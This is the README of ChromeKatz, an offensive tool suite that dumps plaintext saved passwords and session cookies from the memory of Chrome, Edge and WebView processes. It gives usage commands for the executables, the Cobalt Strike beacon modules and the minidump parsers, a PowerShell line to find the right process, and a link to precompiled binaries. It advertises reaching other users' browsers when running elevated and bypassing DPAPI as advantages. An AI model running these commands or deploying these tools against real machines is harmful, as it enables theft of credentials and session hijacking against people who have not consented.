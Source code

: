 # ChromeKatz

ChromeKatz is a solution for dumping sensitive information from memory of Chromium based browsers.
As for now, ChromeKatz consists of two projects:
 1. CookieKatz - The cookie dumper
 2. CredentialKatz - The password dumper

Both tools have an exe, Beacon Object File, and minidump parser available.

CookieKatz has been completely revamped to use much more robust method for finding the cookies! New method supports older browser version as well.

## CredentialKatz - Dump credential manager contents from memory

CredentialKatz is a project that allows operators to dump all credentials from Credential Manager of Chrome and Edge.
Most of the time Chromium based browsers keep your passwords in the credential manager encrypted until they are needed, either viewed in the credential manager, or auto filled to a login form. But for whatever reason, `passwords_with_matching_reused_credentials_` of `PasswordReuseDetectorImpl` class is populated with all credentials from the credential manager, in **plain text**. This will include all credentials that you have added to the password manager locally. If you have logged in the browser with your account, this will also include all the passwords you have ever synced with that account. 

There are few perks in accessing credentials in this way.:
 1. Dump credentials of other user's browsers when running elevated
 2. DPAPI keys not needed to decrypt the credentials
 3. No need to touch on-disk database file
 4. Parse credential manager offline from a minidump file

This solution consists of three projects, **CredentialKatz** that is a PE executable, **CredentialKatz-BOF** the Beacon Object File version and **CredentialKatzMinidump** which is the minidump parser.

## Usage

NOTE! When choosing using PID to target, use commands /list or cookie-katz-find respectively to choose the right subprocess!

### CredentialKatz

```text
Examples:
.\CredentialKatz.exe
    By default targets first available Chrome process
.\CredentialKatz.exe /edge
    Targets first available Edge process
.\CredentialKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CredentialKatz.exe /edge /pid:<pid>
    Target the specified Edge process

Flags:
    /edge       Target current user Edge process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge to list Edge processes
    /help       This what you just did! -h works as well
```

### CredentialKatz-BOF

```text
beacon> help credential-katz
Dump credential manager from Chrome or Edge
Use: credential-katz [chrome|edge] [pid]

beacon> help cookie-katz-find
Find processes for credential-katz
Use: credential-katz-find [chrome|edge]
```

### CredentialKatzMinidump

```text
Usage:
    CredentialKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CredentialKatzMinidump.exe .\msedge.DMP

You need to dump the Chrome/Edge main process. Hint: It is the one with the smallest PID
```

## CookieKatz - Dump cookies directly from memory

CookieKatz is a project that allows operators to dump cookies from Chrome, Edge or Msedgewebview2 directly from the process memory.
Chromium based browsers load all their cookies from the on-disk cookie database on startup. 

The benefits of this approach are:
 1. Support dumping cookies from Chrome's Incogntio and Edge's In-Private processes
 1. Access cookies of other user's browsers when running elevated
 1. Dump cookies from webview processes
 1. No need to touch on-disk database file
 1. DPAPI keys not needed to decrypt the cookies
 1. Parse cookies offline from a minidump file

On the negative side, even as the method of finding the correct offsets in the memory are currently stable and work on multiple different versions, it will definitely break at some point in the future.
32bit browser installations are not supported and 32bit builds of CookieKatz are not supported either.

Currently only regular cookies are dumped. Chromium stores [Partitioned Cookies](https://developers.google.com/privacy-sandbox/3pcd/chips) in a different place and they are currently not included in the dump.

This solution consists of three projects, **CookieKatz** that is a PE executable, **CookieKatz-BOF** that is a Beacon Object File version and **CookieKatzMinidump** which is the minidump parser.

## Usage

NOTE! When choosing using PID to target, use commands /list or cookie-katz-find respectively to choose the right subprocess!

### CookieKatz

```text
Examples:
.\CookieKatz.exe
    By default targets first available Chrome process
.\CookieKatz.exe /edge
    Targets first available Edge process
.\CookieKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CookieKatz.exe /webview /pid:<pid>
    Targets the given msedgewebview2 process
.\CookieKatz.exe /list /webview
    Lists available webview processes

Flags:
    /edge       Target current user Edge process
    /webview    Target current user Msedgewebview2 process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge or /webview to target other browsers
    /help       This what you just did! -h works as well
```

### CookieKatz-BOF

```text
beacon> help cookie-katz
Dump cookies from Chrome or Edge
Use: cookie-katz [chrome|edge|webview] [pid]

beacon> help cookie-katz-find
Find processes for Cookie-Katz
Use: cookie-katz-find [chrome|edge|webview]
```

### CookieKatzMinidump

```text
Usage:
    CookieKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CookieKatzMinidump.exe .\msedge.DMP

To target correct process for creating the minidump, you can use the following PowerShell command:
    Get-WmiObject Win32_Process | where {$_.CommandLine -match 'network.mojom.NetworkService'} | select -Property Name,ProcessId
```

# Build and Install

## Use precompiled binaries
Download the latest release build of the ChrokeKatz BOFs [here](https://github.com/Meckazin/ChromeKatz/releases/latest). The zip file includes compiled BOFs and the CNA script to run them.

## Build your own
You may build both projects on Visual Studio with Release or Debug configuration and x64 platform. 

BOF version has been developed with Cobalt Strike's Visual Studio template [bof-vs](https://github.com/Cobalt-Strike/bof-vs). This means that Debug configuration for the *-BOFs will generate an exe instead of the COFF file. You can read more about the use of the Visual Studio template [here](https://www.cobaltstrike.com/blog/simplifying-bof-development).

You can compile your own BOF with nmake in **x64 Native Tools Command Prompt for VS 2022**:
```text
nmake all
```

## Credits
- [Henkru](https://github.com/Henkru) for fixing the BOF version crashes and creating the CNA script
- [B3arr0](https://github.com/B3arr0) for testing the BOF version and helping to squash the bugs
- [TheWover](https://github.com/TheWover) for excellent PEB definitions!
- [0vercl0k](https://github.com/0vercl0k) for creating udmp-parser which is the core library for minidump parsing
